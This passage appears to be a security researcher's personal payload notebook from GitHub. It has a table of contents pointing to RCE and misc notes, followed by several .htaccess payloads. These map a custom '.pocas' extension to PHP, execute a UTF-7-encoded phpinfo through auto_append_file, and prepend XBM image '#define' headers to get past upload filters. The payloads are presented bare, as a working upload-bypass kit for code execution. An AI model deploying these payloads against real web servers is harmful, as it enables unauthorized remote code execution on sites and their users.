   - [eval](https://github.com/P0cas/Storage/tree/main/payload/my%20note#eval)
  - [os.system](https://github.com/P0cas/Storage/tree/main/payload/my%20note#ossystem)
- [RCE with Ruby YAML.load](https://github.com/P0cas/Storage/tree/main/payload/my%20note#rce-with-ruby-yamlload)
- [IPv4 to IP Decimal Conversion](https://github.com/P0cas/Storage/tree/main/payload/my%20note#ipv4-to-ip-decimal-conversion)
- [Create an endpoint or Connection redirector](https://github.com/P0cas/Storage/tree/main/payload/my%20note#create-an-endpoint-or-connection-redirector)
- [Apache2 Install](https://github.com/P0cas/Note/blob/main/README.md#apache-2-install)
- [Apache2 -> HTTP to HTTPS](https://github.com/P0cas/Note/blob/main/README.md#apache2---http-to-https)
- [RSA shared key conflict](https://github.com/P0cas/Note/blob/main/README.md#rsa-shared-key-conflict)
- [Frida Command](https://github.com/P0cas/Note/blob/main/README.md#frida-command)
- [Docker Command](https://github.com/P0cas/Note/blob/main/README.md#docker-command)
- [Git Command](https://github.com/P0cas/Note/blob/main/README.md#git-command)
- [Port Open](https://github.com/P0cas/Note/blob/main/README.md#port-open)
- [ZSH Install](https://github.com/P0cas/Note/blob/main/README.md#zsh-install)
- [Node Install](https://github.com/P0cas/Note/blob/main/README.md#node-install)
- [Hexo Install](https://github.com/P0cas/Note/blob/main/README.md#hexo-install)
- [Puppeteer Setting file Install](https://github.com/P0cas/Note/blob/main/README.md#puppeteer-setting-file-install)

---
## .htaccess<br>

```txt
php_flag engine off
```
```txt
AddType application/x-httpd-php .pocas
```

```txt
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
#+ADw?php phpinfo()+ADs
```

```txt
#define test_width 1337
#define test_height 1337
AddType application/x-httpd-php .pocas
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

```txt
#define width 1337
#define height 1337

AddType application/x-httpd-php .pocas
php_value zend.multibyte 1
php_value zend.detect_unicode 1
php_value display_errors 1
```

---